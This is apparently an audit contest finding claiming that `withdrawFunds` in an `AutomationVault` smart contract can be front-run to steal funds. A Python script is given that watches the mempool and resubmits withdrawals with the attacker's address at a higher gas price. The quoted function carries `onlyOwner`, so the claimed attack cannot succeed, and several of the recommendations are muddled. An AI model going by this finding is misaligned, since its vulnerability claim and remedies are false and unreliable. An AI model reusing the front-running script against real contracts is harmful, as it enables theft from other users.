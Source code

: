 Amateur Silver Corgi

high

# Unauthorized Fund Withdrawal through Front-Running in `AutomationVault` `withrawFunds` function

## Summary
Unauthorized Fund Withdrawal through Front-Running is a vulnerability that occurs when an attacker monitors the mempool for withdrawal transactions sent to the `withdrawFunds` function by the contract's owner. Once the attacker identifies a legitimate withdrawal transaction, they can create a new withdrawal transaction targeting the same token and amount, but with their own receiver address. By submitting this transaction with a higher gas price, the attacker can potentially have their transaction confirmed before the legitimate transaction, resulting in unauthorized withdrawal of funds. This can lead to significant financial loss for the contract owner or users.

## Vulnerability Detail
The `withdrawFunds` function in the `AutomationVault` contract is vulnerable to front-running attacks due to the lack of protection against transactions being observed in the `mempool`. The function allows the owner to withdraw specified amounts of tokens or native tokens (e.g., Ether) to a given receiver address.
```solidity
function withdrawFunds(address _token, uint256 _amount, address _receiver) external onlyOwner {
    // If the token is the native token, transfer the funds to the receiver, otherwise transfer the tokens
    if (_token == NATIVE_TOKEN) {
      (bool _success,) = _receiver.call{value: _amount}('');
      if (!_success) revert AutomationVault_NativeTokenTransferFailed();
    } else {
      IERC20(_token).safeTransfer(_receiver, _amount);
    }

    // Emit the event
    emit WithdrawFunds(_token, _amount, _receiver);
  }
```
When a legitimate owner transaction calling the `withdrawFunds` function is submitted to the blockchain, it is broadcast to the `mempool`, where other nodes and potential attackers can observe it. This information includes the token type, amount, and recipient address.

An attacker can leverage this information to create their own withdrawal transaction, targeting the same token and amount but specifying a different receiver address (likely their own). They can then submit this transaction with a higher gas price than the legitimate owner's transaction.

Due to Ethereum's transaction processing model, miners prioritize transactions based on gas prices. This means that the attacker's transaction is likely to be mined and confirmed before the legitimate owner's transaction. As a result, the attacker can successfully withdraw the specified amount of funds before the legitimate owner.

This vulnerability poses a significant threat to the security and integrity of the `AutomationVault` contract. It allows attackers to exploit the mempool's transparency to front-run legitimate transactions, leading to unauthorized fund withdrawals and financial losses for the contract owner or users.

## Impact
- Financial Loss: The attacker can drain funds from the contract by front-running legitimate withdrawal transactions. This can lead to direct financial losses for the contract owner or users who rely on the contract.
- Disruption of Operations: Unauthorized fund withdrawals can disrupt the intended use and operations of the contract, affecting the business logic and services provided by the contract.

## Code Snippet

https://github.com/sherlock-audit/2024-04-xkeeper/blob/main/xkeeper-core/solidity/contracts/core/AutomationVault.sol#L125

## Proof of Concept 
We will use python for this exploit.
We will write a python script to monitor the mempool for pending transactions sent to the `withdrawFunds` function by the owner.
The script will observe and analyze each transaction to extract the `token`, `amount`, and `receiver` details:
```bash
pip install web3

```
```python
from web3 import Web3, HTTPProvider
from web3.middleware import geth_poa_middleware
import json
from web3.auto import w3

# Connect to an Ethereum node (replace with your own node URL)
node_url = 'https://mainnet.infura.io/v3/YOUR_INFURA_PROJECT_ID'
web3 = Web3(HTTPProvider(node_url))

# Optional: Use this if you are connecting to a PoA (Proof of Authority) network
web3.middleware_onion.inject(geth_poa_middleware, layer=0)

# Contract address and ABI
contract_address = '0xYourContractAddress'
contract_abi = [
    # Add the ABI for the contract here (in JSON format)
    # You can obtain the ABI from Etherscan or your smart contract source code
]

# Instantiate the contract
contract = web3.eth.contract(address=contract_address, abi=contract_abi)

# Attacker's address and private key
attacker_address = '0xAttackerAddress'
attacker_private_key = 'ATTACKER_PRIVATE_KEY'

print("Monitoring the mempool for the 'withdrawFunds' function...")

# Function to front-run the legitimate transaction
def front_run_legitimate_transaction(token, amount, original_receiver):
    # Define attacker's receiver address (attacker's own address)
    attacker_receiver = attacker_address

    # Get the gas price (you can customize this to increase the gas price)
    gas_price = web3.eth.gas_price * 1.1  # Slightly higher than the current gas price

    # Build the transaction
    nonce = web3.eth.getTransactionCount(attacker_address)
    transaction = contract.functions.withdrawFunds(token, amount, attacker_receiver).buildTransaction({
        'chainId': 1,  # Mainnet
        'gas': 300000,  # Set gas limit appropriately
        'gasPrice': gas_price,
        'nonce': nonce,
    })

    # Sign the transaction with the attacker's private key
    signed_txn = web3.eth.account.sign_transaction(transaction, attacker_private_key)

    # Send the signed transaction to the network
    txn_hash = web3.eth.send_raw_transaction(signed_txn.rawTransaction)

    print(f"\nFront-running attack transaction sent with hash: {txn_hash.hex()}")
    print(f"Attacker receiver address: {attacker_receiver}")
    print(f"Token: {token}, Amount: {amount}")

# Monitoring the mempool for pending transactions
pending_filter = web3.eth.filter('pending')

while True:
    # Get new pending transactions
    pending_tx = pending_filter.get_new_entries()
    
    # Iterate over each pending transaction
    for tx_hash in pending_tx:
        # Get transaction details using the transaction hash
        tx = web3.eth.get_transaction(tx_hash)
        
        # Check if the transaction is sent to the contract address
        if tx['to'] == contract_address:
            # Decode the input data of the transaction
            try:
                function_call, function_args = contract.decode_function_input(tx.input)
                
                # Check if the function called is 'withdrawFunds'
                if function_call.fn_name == 'withdrawFunds':
                    token, amount, receiver = function_args
                    
                    print(f"\nTransaction calling 'withdrawFunds' detected:")
                    print(f"Token being withdrawn: {token}")
                    print(f"Amount being withdrawn: {amount}")
                    print(f"Receiver of the funds: {receiver}")
                    
                    # Front-run the legitimate transaction
                    front_run_legitimate_transaction(token, amount, receiver)
                    
            except ValueError:
                # Handle the case where input data cannot be decoded
                continue



```

## Tool used

Manual Review

## Recommendation

- Implement Front-Running Protection: Consider implementing mechanisms to protect against front-running attacks. For example, you can utilize techniques such as delayed execution, commit-reveal schemes, or on-chain randomness to make front-running more challenging.
- Increase Gas Fees: Adjust gas fees for critical functions to discourage front-running. By setting higher gas fees for specific operations like `withdrawFunds`, you can make it costlier for attackers to execute front-running attacks.
- Monitor Mempool Activity: Continuously monitor `mempool` transactions to detect and potentially flag any suspicious activity related to front-running attempts. Using this information, you can adapt or react to mitigate potential attacks.
- Adjust Gas Limit: Make sure that the gas limit for functions like `withdrawFunds` is set appropriately. Lowering the gas limit can disrupt front-running attempts by making it harder for attackers to include additional logic in their transaction.
- Whitelist Trusted Addresses: Restrict access to sensitive functions such as `withdrawFunds` to a list of trusted addresses. This way, only trusted parties can execute these operations, reducing the risk of front-running.
- Secure Transaction Order: Consider using solutions such as `flashbots` or other private transaction `relayers` that allow transactions to be submitted directly to miners without exposing them to the public `mempool`.
